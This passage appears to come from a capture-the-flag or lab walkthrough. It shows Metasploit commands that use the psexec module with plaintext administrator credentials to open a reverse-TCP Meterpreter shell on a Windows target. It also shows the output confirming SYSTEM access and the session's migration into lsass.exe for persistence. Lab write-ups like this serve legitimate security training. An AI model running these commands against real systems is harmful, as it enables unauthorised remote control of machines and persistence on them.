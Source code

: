 **Explanation:** The Nmap scan identifies open ports and running services on the target machine, providing potential entry points for further exploitation.

_Open Metasploit console to exploit the target machine._

`msfconsole -q`

_Search for the PsExec module in Metasploit, select it, and configure the exploit options._

`search psexec`, `use exploit/windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS 10.4.30.231`, `set SMBUser Administrator`, `set SMBPass Admin@123`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.80.2:4444 
[*] 10.4.30.231:445 - Connecting to the server...
[*] 10.4.30.231:445 - Authenticating to 10.4.30.231:445 as user 'Administrator'...
[*] 10.4.30.231:445 - Selecting PowerShell target
[*] 10.4.30.231:445 - Executing the payload...
[+] 10.4.30.231:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.4.30.231
[*] Meterpreter session 1 opened (10.10.80.2:4444 -> 10.4.30.231:49794) at 2024-08-09 17:34:03 +0530 ←
```

**Explanation:** Metasploit's `psexec` module is used to exploit the SMB service on the target machine, leveraging the administrator credentials to gain a Meterpreter session, which provides full control over the target.

_List active sessions and interact with the Meterpreter session._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Verify the user context under which the Meterpreter session is running._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Find the process ID of the lsass.exe process._

`pgrep lsass.exe`:
```
616 ←
```

_Migrate the Meterpreter session to the lsass.exe process to ensure persistence._

`migrate 616`:
```
[*] Migrating from 4640 to 616...
[*] Migration completed successfully. ←
```

**Explanation:** Migrating to the `lsass.exe` process ensures that the Meterpreter session is more persistent, as `lsass.exe` is a critical system process that is unlikely to be terminated.

_Search for files on the target machine that contain the word 'flag'._
